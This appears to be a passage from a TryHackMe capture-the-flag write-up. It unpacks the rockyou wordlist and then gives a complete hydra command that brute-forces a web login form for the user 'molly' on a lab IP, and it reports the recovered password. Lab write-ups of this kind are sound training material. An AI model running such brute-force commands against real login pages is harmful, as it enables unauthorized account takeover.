 ```commandline
cd /usr/share/wordlists/
# Preserver the original file with -k, I do not know why, to save the planet?
gunzip -k rockyou.txt.gz
```

### Brute forcing the web app

So now we are ready to bruteforce attack that web form with our username and wordlist:

```commandline
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.180.225 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V
```

After a few seconds, not to long actually, we found what we need, the password `sunshine` of user `molly`.

![alt text](images/THM_writeup_hydra_004.png "Webserver login Screenshot")

Let's login on the Web APP with these credentials!

These guys behind TryHackMe are incredible! :-D
